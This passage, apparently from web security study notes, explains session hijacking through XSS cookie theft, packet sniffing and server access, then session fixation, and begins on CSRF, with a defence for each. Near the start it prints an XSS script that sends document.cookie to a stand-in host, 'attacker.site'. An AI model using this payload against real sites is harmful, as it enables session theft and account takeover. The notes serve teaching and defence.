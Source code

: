For example, by using the following script, we will be able to steal the users cookies.
```
<script>
	var i=new Image();
	i.src="http://attacker.site/steal.php?q="%2bdocument.cookie;
</script>
```
Once we collect them, we just need to change our current cookies, refresh our browser and we will navigate the web application with the victim session.

In order to *prevent cookie stealing through XSS*, making cookies inaccessible via JavaScript is necessary. This is as simple as creating the cookie with the `HTTPONLY` flag enabled.

*Session Hijacking via Packet Sniffing*.
This type of attack requires the attacker to be able to sniff the HTTP traffic of the victim. This is unlikely to happen for a remote attacker but, it is feasible on a local network if both the attacker and victim are present.
If HTTP traffic is encrypted through IPSEC or SSL, the session token will be harder (if not impossible) to obtain.

*Session Hijacking via Access to the Web Server*.
Session data is stored in either the web server's file system (e.g. for PHP in `/var/lib/php5`) or in memory. If an attacker obtains full access to the web server, the malicious user can steal the session data of all users, not just the session identifiers.

**Session Fixation** is a session hijacking attack where, as the name suggests, the attacker does not need to steal the victim cookies, but instead he fixates a session ID and then forces the victim to use it (after the user logs in).

You may think that if the attacker owns a valid sessionID, he is already authenticated to the vulnerable site. This is not always true. Indeed, most web applications are designed to start a new session the first time a user visits a website regardless of whether or not they are authenticated.
Instead, if a web application releases a valid sessionID only after a reserved operation (for example, a login), Session Fixation is only possible if the attacker is also a member of the vulnerable website.

This happens when the sessionID is embedded in the URL rather than inside the cookie header. An attacker can simply send a malicious link to the victim, which will set the new, and known, sessionID.
A web application vulnerable to Session Fixation will recycle this sessionID and will bind the session to the victim.

For example, the attacker creates the following link and sends it to the victim: `http://sessionfixation.site/login.php?SID=300`.
Once the victim opens the link, the sessionID will be set to `300`. Since the Web Application recycles the sessionID (even after the user logs in), the attacker is able to impersonate the victim session by changing his sessionID to `300`.

In order to *prevent session fixation*, most of the time it is sufficient to destroy and re-generate a new session upon successful login.
Server-side scripting languages provide different libraries and built-in functions to manage sessions.

(055/143) *Cross Site Request Forgery* (CSRF) exploits a feature of internet browsing, instead of a specific vulnerability.
CSRF is a vulnerability where a third-party web application is able to perform an action on the user's behalf.
It is based on the fact that web applications can send requests to other web applications, without showing the response.
